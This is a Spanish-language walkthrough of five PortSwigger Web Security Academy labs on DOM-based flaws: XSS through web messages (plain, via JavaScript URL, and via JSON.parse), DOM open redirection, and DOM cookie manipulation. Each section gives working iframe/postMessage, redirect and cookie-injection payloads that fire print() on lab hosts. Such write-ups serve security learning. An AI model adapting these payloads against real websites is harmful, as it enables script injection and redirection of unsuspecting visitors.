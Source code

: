 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based open redirection

### Enunciado

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM (DOM-based open-redirection). Exploita esta vulnerabilidad y redirige a la víctima hacia el servidor de exploits.

### Resolución

Vemos el código fuente de los post.

<figure><img src="../../.gitbook/assets/image (1505).png" alt=""><figcaption></figcaption></figure>

Verifica si el objeto **location** contiene **url=**[**http://loquesea.com**](http://loquesea.com) o **url=**[**https://loquesea.com**](https://loquesea.com). Si encuentra ese parámetro, **asigna el valor a `location.href`** para redirigir a esa dirección.

<figure><img src="../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Es **vulnerable a redirección abierta basada en DOM**.

Para **explotarla**, podemos **añadir el payload como parámetro GET**:

```
/post?postId=9&url=https://exploit-0a6200ff03db6e4e8148c45501ce0070.exploit-server.net/
```

Así, **forzamos la redirección** a nuestro servidor de exploits.

<figure><img src="../../.gitbook/assets/image (1508).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1507).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based cookie manipulation

### Enunciado

Este laboratorio demuestra una manipulación de cookies en el lado del cliente basada en DOM. Inyecta una cookie que provoque un ataque XSS en otra página y ejecute la función `print()`. Para ello, deberás usar el servidor de exploits para redirigir a la víctima a las páginas correctas.

### Resolución

Vemos el código fuente de los productos.

<figure><img src="../../.gitbook/assets/image (1509).png" alt=""><figcaption></figcaption></figure>

Aquí vemos que hay un **sink peligroso**: `document.cookie`. La **fuente** de datos (input controlado por el atacante) es **`window.location`**.

Esto significa que **se establecerá una nueva cookie** llamada `lastViewdProduct`, **usando como valor la propiedad `window.location`**.

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

Cuando actualizamos la página, **se genera dinámicamente un nuevo enlace `<a>`** con el atributo **href** igual a **`window.location`**.

Esto significa que **podemos inyectar código malicioso en la URL**.

```
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

Al incluir este payload, **cerramos el atributo href y añadimos un elemento `<img>` con un evento `onerror` que ejecuta `print()`.**

<figure><img src="../../.gitbook/assets/image (1511).png" alt=""><figcaption></figcaption></figure>

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1512).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto ya podemos crear el payload HTML.

```
<html>
    <body>
        <iframe src="https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

Este **payload** generará un **elemento `<iframe>`** apuntando a nuestra URL con el payload que establece la cookie. Cuando se cargue, **verificamos si se activó el XSS**.

Si **no se dispara**, entonces **cambiamos el atributo `src` del `<iframe>`** para que apunte a la **página principal del sitio vulnerable**.

De este modo, **forzamos a que se cargue la cookie inyectada y se ejecute el payload XSS.**

<figure><img src="../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>
